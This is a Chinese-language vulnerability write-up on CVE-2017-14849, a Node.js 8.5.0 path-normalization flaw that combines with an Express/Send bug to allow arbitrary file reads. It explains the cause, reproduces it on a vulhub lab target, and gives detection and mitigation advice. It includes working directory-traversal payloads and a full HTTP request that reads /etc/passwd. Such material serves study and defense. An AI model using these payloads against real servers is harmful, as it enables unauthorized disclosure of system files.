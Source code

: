 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：Node.js 目录穿越漏洞


---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，express在判断path是否超出静态目录范围时，就用到了`normalize`函数，Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有express，更有待深入挖掘。

---

### 漏洞危害

任意文件读取

---

### 影响范围

Node.js 8.5.0 + Express 3.19.0-3.21.2
Node.js 8.5.0 + Express 4.11.0-4.15.5

---

## 漏洞原理

> 参考链接：https://security.tencent.com/index.php/blog/msg/121

原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。具体如下：

Express依赖Send组件，Send组件0.11.0-0.15.6版本pipe()函数中，如图：

![03](./img/node_CVE-2017-14849/03.png)

Send模块通过`normalize('.' + sep + path)`标准化路径path后，并没有赋值给path，而是仅仅判断了下是否存在目录跳转字符。如果我们能绕过目录跳转字符的判断，就能把目录跳转字符带入545行的`join(root, path)`函数中，跳转到我们想要跳转到的目录中，这是Send模块的一个bug，目前已经修复。

再来看Node.js，Node.js 8.5.0对path.js文件中的`normalizeStringPosix`函数进行了修改，使其能够对路径做到如下的标准化：

```
assert.strictEqual(path.posix.normalize('bar/foo../..'), 'bar');
```

新的修改带来了问题，通过单步调试发现，可以通过`foo../../`和目录跳转字符一起注入到路径中，`foo../../`可以把变量`isAboveRoot`设置为`false`（代码161行），并且在代码135行把自己删掉；变量`isAboveRoot`为`false`的情况下，可以在`foo../../`两边设置同样数量的跳转字符，让他们同样在代码135行把自己删除，这样就可以构造出一个带有跳转字符，但是通过`normalizeStringPosix`函数标准化后又会全部自动移除的payload，这个payload配合上面提到的Send模块bug就能够成功的返回一个我们想要的物理路径，最后在Send模块中读取并返回文件。

该漏洞是建立在文件夹通过express.static 来托管的情况下，因为在这种情况下才会使用normalize函数进行path标准化。

比如代码这样写：

```
app.use(express.static(path.join(__dirname, 'static')));
```

那么payload应该是

```
/../../../a/../../../../etc/passwd
```

但代码如果是这样写的话：

```
app.use(``'/static'``,express.static(path.join(__dirname, 'static')));
```

那么payload应该为：

```
/static/../../../a/../../../../etc/passwd
```

------

## 漏洞利用

### 靶机环境

vulhub/node/CVE-2017-14849

---

### 利用方式

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

![01](./img/node_CVE-2017-14849/01.png)



发送如下数据包，即可读取passwd：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![02](./img/node_CVE-2017-14849/02.png)

或者访问其他文件：

![04](./img/node_CVE-2017-14849/04.png)

---


## 威胁防护建议

### 用户处置建议

避免使用受影响版本的node.js

---

### 安全产品检测建议

检测类似`../../../foo/../../../../etc/passwd`的目录遍历形式

---

> https://drive.weixin.qq.com/s?k=AD4AGAfCAAw86qs7kb)

